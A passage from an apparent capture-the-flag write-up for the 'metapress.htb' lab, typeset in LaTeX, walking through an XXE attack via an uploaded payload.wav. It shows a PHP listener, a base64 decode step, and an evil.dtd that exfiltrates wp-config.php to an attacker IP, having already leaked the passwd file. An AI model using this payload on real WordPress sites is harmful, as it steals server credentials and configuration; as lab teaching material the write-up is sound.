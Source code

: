 \documentclass[11pt]{article}
\begin{document}
Again we have to modify the ip and port.

We will start a php server:
\begin{verbatim}
php -S 0.0.0.0:1234
\end{verbatim}

And we go the the media page. Then click on add new and upload our payload.wav while
the server is still running. We will get a huge, horrible looking output but we can
decode it using:
\begin{verbatim}
echo -en <payload> | base64 -d
\end{verbatim}

Now the output looks much more interesting since these is the passwd file of the
machine we are trying to pawn. Of course if we analyze it there really is nothing
we can do with this. But it is useful to know that the vulnerability can be
exploited.

If we modify the evil.dtd file that we created before to give us the config file of
the page we might be more lucky.
\begin{verbatim}
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/
         resource=/var/www/metapress.htb/blog/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM
         'http://10.10.14.83:1234/?p=%file;'>">
\end{verbatim}

So we upload the payload.wav file again and again we decode the output which will
look like this:
\end{document}
